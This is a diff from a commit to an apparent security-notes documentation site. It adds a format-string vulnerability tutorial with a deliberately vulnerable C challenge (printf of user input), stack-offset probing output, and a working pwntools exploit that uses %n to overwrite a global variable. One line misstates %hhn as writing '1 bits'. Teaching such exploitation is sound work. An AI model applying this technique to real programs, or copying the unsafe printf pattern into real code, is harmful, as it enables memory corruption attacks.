

Before and after one commit to backup-5968426158/blog-code, an MkDocs documentation site: the page built from docs/Memory vulnerabilities.md, in a window 1280 px wide and 1400 px high, scrolled down 34044 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Add format string writing demo

````diff
--- a/docs/Memory vulnerabilities.md
+++ b/docs/Memory vulnerabilities.md
@@ -1293,7 +1293,9 @@ printf(user_input);
 
 So the attacker can place in user_input characters that allow to manipulate the program ;
 In reading :
+
 - %x, %p : display the content of the stack (bypass ASLR)
+
 - %s : interprets a value of the stack as a pointer and dereferences allows the arbitrary reading of memory (or the DOS)
 
 For example if we take the this code snippet :
@@ -1359,9 +1361,114 @@ pwndbg> x/50xw $sp  # And this addresse start at the 8 bytes of the stack
 ```
 
 And in writing :
+
 - %n writes the number of characters already displayed at the address pointed by the corresponding argument
 
-Once an attacker can write to an arbitrary memory location, a classic exploitation technique is to overwrite an entry in the GOT.
+Here is an example on how to write with format strings vulnerability.
+
+Giving the following challenge :
+```c
+// Challenge generated by Opus 4.8
+#include <stdio.h>
+#include <stdlib.h>
+#include <string.h>
+
+int secret = 0xdeadbeef;
+
+void win(void) {
+    puts("You win");
+}
+
+int main(void) {
+    char buf[128];
+    printf("Secret is at: %p\n", &secret);
+
+    while (1) {
+        printf("Input: ");
+
+        if (!fgets(buf, sizeof(buf), stdin))
+            break;
+
+        buf[strcspn(buf, "\n")] = '\0';
+
+        printf(buf);
+
+        if (secret == 0x1337) {
+            win();
+        }
+    }
+    return 0;
+}
+```
+
+The reason why we can write through a format string vulnerability is because "%?$n" writes at the address present at the "?" offset (the ?th argument of the format string provided to printf) the number of characters already displayed.
+
+"%n" writes 4 bytes (an int) at once. %hn writes 2 bytes (a short) and allows us to split it into two (hhn = 1 bits). Here, since the value to write is small (0x1337 = 4919 in decimal), we are going to use %n directly on 4 bytes. There is no need to split it.
+
+The payload will be composed as follows :
+```
+(address of "secret") +
+
+(padding allowing us to control the value) +
+
+(%?$n which writes to the address present at the ?th offset of the format string the number of characters already displayed)
+```
+
+So we have 3 variables to find :
+
+- address of secret: the challenge gives it to us: 0x804c008, in 32-bit little-endian this gives: \x08\xc0\x04\x80
+
+- padding: the address is 4 characters long, 4919 - 4 = 4915. We need to write 4915 additional characters. For that we can use:
+```
+%4915x which tells printf: "display the next argument in hex with a width of 4915 characters".
+
+printf will therefore take any value from the stack and display it over 4915 characters, which makes the counter reach 4919.
+```
+
+- offset of the address of secret
+```bash
+./code
+Secret is at: 0x804c008
+Input: AAAA.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x
+AAAA.804a058.ed313620.0.41414141.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78
+```
+Here we can see that AAAA, which is displayed by the format string, is stored on the argument stack at the 4th position (41414141).
+
+This gives us the following payload:
+```
+\x08\xc0\x04\x80 + %4915x + %4$n
+```
+
+```py
+from pwn import *
+
+p = process('./code')
+
+p.recvuntil(b'Secret is at: ')
+secret_addr = int(p.recvline().strip(), 16)
+log.success(f"secret @ {hex(secret_addr)}")
+
+offset = 4
+padding = 4915
+payload = p32(secret_addr) + f"%{padding}x".encode() + f"%{offset}$n".encode()
+
+p.sendline(payload)
+p.interactive()
+```
+
+```py
+python3 exploit.py
+[+] Starting local process './code': pid 7236
+[+] secret @ 0x804c008
+[*] Switching to interactive mode
+
+[here the padding]
+
+You win
+
+$ echo "hello"
+hello
+```
 
 Here is how to detect it in assembly : if the user input is in the first argument of the printf function, this is vulnerable.
 ```assembly
````
